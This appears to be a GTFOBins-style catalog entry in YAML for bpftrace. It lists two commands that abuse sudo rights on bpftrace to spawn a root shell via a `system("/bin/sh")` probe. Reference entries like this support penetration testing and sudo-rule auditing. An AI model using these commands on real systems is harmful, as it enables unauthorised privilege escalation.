 ```yaml
---
functions:
  sudo:
    - code: sudo bpftrace -e 'BEGIN {system("/bin/sh")}'
    - code: |
        TF=$(mktemp)
        echo 'BEGIN {system("/bin/sh")}' >$TF
        sudo bpftrace $TF
---
```


